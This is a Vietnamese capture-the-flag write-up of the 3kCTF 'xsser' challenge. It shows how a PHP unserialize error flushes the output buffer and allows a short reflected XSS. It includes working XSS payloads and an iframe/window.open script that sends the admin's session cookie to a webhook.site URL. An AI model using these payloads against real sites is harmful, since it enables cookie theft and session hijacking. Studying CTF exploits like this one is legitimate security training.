```yaml
---
title: xsser - 3kCTF
date: 2020-07-29
description: ""
categories:
  - CTF
tags:
  - xss
  - web
  - php
menu: main
draft: false
---
```

Nguồn: <https://ctftime.org/writeup/22594>

Truy cập vào đường link `http://xsser.3k.ctf.to/` trang sẽ tự chuyển hướng thành `http://xsser.3k.ctf.to/?**login=O:4:"User":2:{s:4:"name";s:5:"guest";s:7:"isAdmin";b:0;}**`

và đây là nội dung file index.php

```php
<?php
include('flag.php');
class User

{
    public $name;
    public $isAdmin;
    public function __construct($nam)
    {
        $this->name = $nam;
        $this->isAdmin=False;
    }
}

ob_start();
if(!(isset($_GET['login']))){
    $use=new User('guest');
    $log=serialize($use);
    header("Location: ?login=$log");
    exit();

}

$new_name=$_GET['new'];
if (isset($new_name)){

  if(stripos($new_name, 'script'))//no xss :p
                 {
                    $new_name = htmlentities($new_name);
                 }
        $new_name = substr($new_name, 0, 32);
  echo '<h1 style="text-align:center">Error! Your msg '.$new_name.'</h1><br>';
  echo '<h1>Contact admin /req.php </h1>';

}
 if($_SERVER['REMOTE_ADDR'] == '127.0.0.1'){
            setcookie("session", $flag, time() + 3600);
        }
$check=unserialize(substr($_GET['login'],0,56));
if ($check->isAdmin){
    echo 'welcome back admin ';
}
ob_end_clean();
show_source(__FILE__);
```

Thoạt nhìn có thể khai thác được xss thông qua `$_GET['new']` , nhưng nó nằm trong `ob_start()` và `ob_end_clean()` ( lưu output vào buffer và clean) nên dù có khai thác được xss thì `$_GET['new']` cũng không được in ra trình duyệt.

Nhưng khoan, vậy thì hàm `htmlentities()` chống xss để làm gì.

Dạo một vòng php documentation thì phát hiện [ob_start()#108016](https://www.php.net/manual/en/function.ob-start.php#108016), cụ thể khi có lỗi throw ra trong buffer thì nó in ra tất cả những gì đang có trong buffer.

Vì vậy ta nên khai thác lỗi các hàm khác để buffer được in ra, từ đó khai thác tiếp xss.

[unserialize()#112894](https://www.php.net/manual/en/function.unserialize.php#112894) cho ta biết nếu object truyền vào không thể khởi tạo (Abstract Class hoặc Interface) thì sẽ throw lỗi. Vậy nên ta xây dựng payload là một string đã serialized.

Dựa trên [unserialize()#66147](https://www.php.net/manual/en/function.serialize.php#66147) để build một payload: `O:8:"Iterator":0:{}` truyền vào `$_GET['login']`

Nhận thấy `htmlentities()` chỉ thực thi khi phát hiện `'script'` truyền vào. Vậy ta sẽ dùng payload inline xss: `<svg/onload=alert(1)>` truyền vào `$_GET['new']`

Truy cập: `http://xsser.3k.ctf.to/?login=O:8:"Iterator":0:{}&new=<svg/onload=alert(1)>`

Kết quả:

![XSS exploited](/img/untitled.png)

Vậy là chạy được script tiêm vào. Nhưng script bị giới hạn chỉ 32 kí tự, và không dùng được script tag. Tìm payload ngắn nhất trên google ra được [bài này](https://brutelogic.com.br/blog/shortest-reflected-xss-possible/).

Chúng ta có 2 lựa chọn:

1. Có một domain 4 kí tự trở xuống chứa script `<svg/onload=import('xxxx.yy')>`
2. Lưu script vào `window.name` rồi thực thi `<svg/onload=eval(name)>`

Mình chọn cách 2 vì đơn giản hơn. Việc còn lại là lấy được `$flag` thông qua cookie của admin

```php
 if($_SERVER['REMOTE_ADDR'] == '127.0.0.1'){
            setcookie("session", $flag, time() + 3600);
```

Như chúng ta thấy cookie chỉ được set khi địa chỉ truy cập là `127.0.0.1` tức là `localhost` vậy khi viết script chúng ta sẽ trỏ tới `127.0.0.1` thay vì `xsser.3k.ctf.to`

Bạn cần host script của bạn và submit vào `http://xsser.3k.ctf.to/req.php` để admin truy cập.

Mình thích dùng [repl.it](http://repl.it) để host code, vì thằng này có thể chạy được `http` và cả `https` mà không bị chuyển hướng như [codesandbox.io](http://codesandbox.io). Và tất nhiên [webhook.site](https://webhook.site/) chuyển hướng cookie về và log lại

```html
<iframe id="xss" src="http://127.0.0.1/"></iframe>
<script>
  document.getElementById("xss").onload = function () {
    setTimeout(function () {
      window.open(
        "http://127.0.0.1/?login=O:11:%22Traversable%22:0:{}&new=%3Csvg/onload=eval(name)%3E",
        'window.location.href = "https://webhook.site/2efe831e-5b4e-43f2-a800-9734dd41d367?"+document.cookie'
      );
    });
  };
</script>
```

Copy link để submit nhớ bỏ `https` Link có dạng `http://ImmediateLavishCallbacks--five-nine.repl.co`

![Submit XSS to Admin](/img/untitled-1.png)

Có một điều thú vị là script sẽ chạy nếu như click thẳng vào link. Còn nhập link vào trình duyệt thì Chrome sẽ tự phát hiện popup và chặn. Vậy nên `window.open()` sẽ không dùng được. Các bạn có thể dùng cách khác là tạo `<a href={link xss} target={window.name}>` và dùng javascript để click vào link đó.

Như vậy là thành công

![Get cookie successfully](/img/untitled-2.png)